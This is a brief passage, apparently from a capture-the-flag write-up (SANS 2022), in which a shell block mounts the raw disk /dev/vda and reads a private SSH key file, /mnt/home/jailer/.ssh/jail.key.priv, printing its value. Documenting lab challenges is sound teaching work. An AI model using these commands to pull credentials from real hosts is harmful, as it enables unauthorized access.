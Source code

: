 
[![](/assets/images/sans/2022/f82f9d80.png)](/assets/images/sans/2022/f82f9d80.png)

```shell
mount /dev/vda /mnt
cat /mnt/home/jailer/.ssh/jail.key.priv
082bb339ec19de4935867
```

[![](/assets/images/sans/2022/cf1a0e30.png)](/assets/images/sans/2022/cf1a0e30.png)
